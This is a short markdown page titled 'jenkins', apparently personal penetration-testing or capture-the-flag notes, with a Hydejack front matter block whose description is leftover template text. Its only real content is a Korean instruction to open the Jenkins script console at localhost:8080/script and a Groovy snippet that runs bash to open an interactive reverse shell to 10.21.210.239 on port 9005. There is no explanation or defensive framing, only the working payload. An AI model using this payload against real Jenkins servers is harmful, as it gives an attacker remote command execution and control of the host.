 ```yaml
---
layout: page
title: jenkins
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}

http://localhost:8080/script 위치에 가서

```
r=Runtime.getRuntime()
p=r.exec(["/bin/bash","-c","sh -i >& /dev/tcp/10.21.210.239/9005 0>&1"] as String[])
p.waitFor()
```


